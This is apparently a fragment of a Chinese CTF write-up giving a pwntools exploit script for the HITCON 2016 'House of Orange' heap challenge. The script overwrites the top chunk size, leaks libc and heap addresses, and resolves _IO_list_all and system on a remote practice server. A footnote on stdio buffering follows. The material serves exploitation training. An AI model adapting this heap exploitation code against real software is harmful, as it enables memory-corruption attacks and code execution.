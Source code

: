 ```python
from pwn import *
context(log_level='debug',arch='amd64')

# p = process("./houseoforange_hitcon_2016")
# libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
p = remote("node3.buuoj.cn",29595)
libc = ELF("./libc-2.23.so")
elf = ELF("./houseoforange_hitcon_2016")

def command(id):
	p.recvuntil(": ")
	p.sendline(str(id))

def add(size, content, price, color):
	command(1)
	p.recvuntil("Length of name :")
	p.sendline(str(size))
	p.recvuntil("Name :")
	p.send(content)
	p.recvuntil("Price of Orange:")
	p.sendline(str(price))
	p.recvuntil("Color of Orange:")	
	p.sendline(str(color))

def show():
	command(2)

def edit(size, content, price, color):
	command(3)
	p.recvuntil("Length of name :")
	p.sendline(str(size))
	p.recvuntil("Name:")
	p.send(content)
	p.recvuntil("Price of Orange:")
	p.sendline(str(price))
	p.recvuntil("Color of Orange:")
	p.sendline(str(color))

# step1 'free' 2 bin
add(0x18,'a'*8,0xddaa,0xddaa)
payload='a'*0x38+p64(0xfa1)
edit(len(payload),payload,0xddaa,0xddaa)
add(0x1000,'b'*8,0xddaa,0xddaa)
#0x555555758000     0x555555779000 rw-p    21000 0      [heap]
#0x555555758000     0x55555579b000 rw-p    43000 0      [heap]

# step2 leak libc
add(0x450,'c'*8,0xddaa,0xddaa)
show()
p.recvuntil('c'*8)
leak_addr = u64(p.recv(6).ljust(8,'\x00'))
log.info("leak_addr:"+hex(leak_addr))
libc_addr = leak_addr-1640-0x3c4b20
log.info("libc_addr:"+hex(libc_addr))
IO_list_all=libc_addr+libc.sym['_IO_list_all']
log.info("IO_list_all:"+hex(IO_list_all))
system=libc_addr+libc.sym['system']

# step3 leak heap
payload = 'd' * 0x10
edit(0x10, payload,0xddaa,0xddaa)
show()
p.recvuntil('d'*0x10)
```

[^1]: 用 fwrite 等这种流 I/O 函数写入写出，数据会先放在缓冲区，并没有真正输入或者输出，需要用 fflush 冲洗流中信息才完成写入写出。避免用 fflush 冲洗就用 setbuf 函数关闭缓冲（pwn 题初始化必备）